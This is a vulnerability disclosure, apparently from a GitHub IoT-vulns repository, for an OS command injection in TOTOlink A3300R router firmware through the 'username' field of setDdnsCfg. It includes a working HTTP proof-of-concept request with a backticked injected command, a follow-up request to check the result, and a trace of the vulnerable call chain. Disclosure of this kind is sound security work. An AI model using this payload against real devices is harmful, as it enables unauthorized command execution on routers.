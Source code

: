 # TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection
### Discoverer
Yangyi
## Product Information

Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![image-20240109124617070](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/2/img/image-20240109124617070.png)

## Vulnerability Description

When deal with  `setDdnsCfg` request,`username` parameter is vulnerable to OS command injection.

### POC

```
POST /cgi-bin/cstecgi.cgi?token=12B107C61AD15CFD HTTP/1.1
Host: itotolink.net
Content-Length: 134
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://itotolink.net
Referer: http://itotolink.net/advance/ddns.html?token=12B107C61AD15CFD
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: ext_pgvwcount=-0.1
Connection: close

{"enable":"1","provider":"3322.org","domain":"8.8.8.8","username":"admin`ls>/web/234.txt`","password":"admin","topicurl":"setDdnsCfg"}
```

injection the command "ls>/web/234.txt"

![image-20240109130442174](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/2/img/image-20240109130442174.png)

check the result.

```
GET /234.txt HTTP/1.1
Host: itotolink.net
If-Modified-Since: Mon, 24 Oct 2022 17:43:03 GMT
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://itotolink.net/static/css/advance_menu.css
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: ext_pgvwcount=-0.1
Connection: close
```

![image-20240109130507028](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/2/img/image-20240109130507028.png)

## Analysis

sub_40E920 will handle the `setDdnsCfg` request. sub_40E920 get `username` parameter from request body, then pass to `Uci_Set_Str` function.

![image-20240109130751395](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/2/img/image-20240109130751395.png)

`Uci_Set_Str` function Splicing uci command, and pass to `CsteSystem` function.

![image-20240109131204077](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/2/img/image-20240109131204077.png)

`CsteSystem` wraps the command and then passes it to `execv` to execute the command.

![image-20240109131330610](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/2/img/image-20240109131330610.png)
